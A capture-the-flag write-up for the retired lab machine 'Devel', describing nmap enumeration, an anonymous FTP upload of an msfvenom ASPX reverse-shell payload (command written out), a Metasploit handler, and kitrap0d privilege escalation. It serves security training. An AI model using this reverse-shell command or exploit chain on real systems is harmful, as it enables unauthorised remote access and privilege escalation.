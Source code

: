 # Devel 10.10.10.5 WriteUp
## Contents
- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Priviledge Escalation](#priviledge-escalation)

Retired Easy Machine by ch4p

## Tools
1. Nmap
2. ftp
3. Metasploit

## Enumeration

1. Nmap shows port 21 and 80 is open.

## Exploitation

1. FTP anynymous login was enabled. So, exploited it with `put shell.aspx` to upload msfvenom shell.
msfvenom command used,
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx > shell.aspx`
2. Then used `/multi/handler` to get reverse tcp connection from the shell on metasploit as user `IIS APPPOOL\Web`.

## Priviledge Escalation

1. Used `local_exploit_suggester` module for this.
2. After trying some suggested exploit `exploit/windows/local/ms10_015_kitrap0d` worked. The flags can now be obtained from
`c:\Users\babis\Desktop\user.txt.txt​` and `c​:\Users\Administrator\Desktop\root.txt.txt`

Author: [Zishan Ahamed Thandar](https://github.com/ZishanAdThandar/WriteUps/tree/main?tab=readme-ov-file#about-me)
